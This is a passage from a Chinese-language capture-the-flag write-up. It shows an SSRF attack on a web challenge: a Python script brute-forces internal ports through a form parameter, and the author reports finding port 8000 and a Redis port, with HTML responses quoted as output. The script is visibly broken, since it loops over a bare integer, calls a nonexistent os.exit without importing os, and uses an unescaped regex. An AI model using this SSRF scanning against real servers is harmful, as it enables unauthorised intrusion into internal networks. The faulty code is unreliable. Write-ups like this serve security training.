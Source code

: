 于是我们尝试输入0，可以看到我们已经成功进入了内网。

### 0x01.第二层

#### 1.刚开始

虽然我们成功进入了内网，但是目前来看我们还是离flag很远。因为我们无法控制服务器http请求的内容，无法进行redis操作。

写一个脚本，看一下内网有什么服务，很简单的脚本：

```python
import requests
from lxml import etree
import re

s = requests.Session()
url = "localhost"
pattern = re.compile(r'[Errno 111] Connection')

def get_token(sess):
    r = sess.get(url)
    html = etree.HTML(r.text)
    t = html.xpath("//input[@name='csrfmiddlewaretoken']")
    try:
        token = t[0].get('value')
    except IndexError:
        print("[+] Error: can't get login token, exit...")
        os.exit()
    except Exception as e:
        print(e)
        os.exit()
    return token

for i in 10000:
    payload = {'csrfmiddlewaretoken': get_token(s), 'target': '0:%i' % i}
    r = s.post(url, data=payload)
    if re.search(pattern, r.text):
        print(i)
```

可以看到服务器还开了8000端口和6379端口，6379端口应该是redis。这里我们输入0:8000看看会返回什么：
```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <form action="/" method="get"> <input type="text" name="url" id="url" > <input type="submit" value="submit"> </form> </body> </html>
```

看起来是一个GET方式的表单，这里我们传递表单的参数看一下`0:8000?url=http://baidu.com`：

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>我觉得可以</p> </body> </html>
```

看起来这里也可能存在ssrf漏洞。
